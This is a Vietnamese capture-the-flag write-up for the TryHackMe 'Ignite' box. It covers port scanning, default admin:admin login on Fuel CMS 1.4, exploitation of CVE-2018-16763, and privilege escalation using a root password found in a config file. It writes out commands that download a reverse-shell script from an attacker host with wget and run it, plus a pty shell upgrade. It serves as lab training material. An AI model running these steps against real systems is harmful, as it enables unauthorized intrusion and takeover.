

# [THM] Ignite write-up

- IP: 10.10.84.37

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.84.37

Có 1 port dịch vụ đang mở 
- Port 80 chạy dịch vụ 

Giao diện trang web

Thông qua giao diện web trên ta xác định được trang web dùng Fuel CMS version 1.4. Tiếp tục scan thư mục ẩn với công cụ ffuf
> ffuf -u "http://10.10.84.37/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt

Sau khi khám phá các thư mục ẩn trên hầu hết không có gì đặc biệt ngoại trừ tệp `robots.txt`. Dựa vào nội dung tệp đó ta thử truy cập `/fuel` thì ra trang login

## Exploit

Và thử đăng nhập với tài khoản defaul có `username:admin` và `password:admin` ta đã truy cập được vào dashboard. Khám phá và nhận ra có thể upload nhưng khi thử upload reverse shell đã bị từ chối chắc có lẽ nó đã được filter định dạng file

Đã thử và nhận ra không thể tấn công bằng cách này. Vậy còn thông tin về CMS mà page đang sử dụng liệu nó có lỗ hổng nào đã được tìm thấy trước đây không? 
Sau khi tìm kiếm thông tin thì có thể thấy ở version CMS này có thể tấn công thông qua **CVE-2018-16763**

Tìm kiếm PoC và thực hiện tấn công. File exploit đã được chỉnh sửa ở bên dưới. Bởi vì sẽ không sử dụng proxy (burp hoặc bất kỳ phần mềm proxy nào khác) nên hãy chú thích mã proxy trong phần khai thác.

Thực thi mã và đã nhận được shell 

Tận dụng việc này ta sẽ chèn revese shell. Ta có thể truy cập [revshell](https://www.revshells.com/) để tạo bash reverse shell

Tạo tệp `revshell.sh` trên máy attacker chứa revere shell sau đó chạy lệnh `python3 -m http.server 80` và tiếp theo trên shell mục tiêu ta sẽ download file shell về với câu lệnh `wget http://10.21.113.26/revshell.sh` và cấp quyền với câu lệnh `chmod +x revshell.sh`. Cuối cùng sẽ tạo **netcat listener** trên máy attacker và trên shell chạy lệnh `bash revshell.sh`

## user.txt
Sau khi truy cập được shell ta thực hiện tìm kiếm user flag

## Privilege escalation
Kiểm tra user này có thể thực hiện câu lệnh nào với quyền root mà không cần mật khẩu hay không. Nhưng rất tiếc là không có

Chợt nhớ ra khi truy cập trang web nhận thấy một số hướng dẫn liên quan tới cấu hình cơ sở dữ liệu trên trang web.

Sau khi kiểm tra file config ta đã có mật khẩu của root

Cần chạy thêm câu lệnh `python3 -c "import pty;pty.spawn('/bin/bash')"` bởi vì **su: must be run from a terminal**

## root.txt
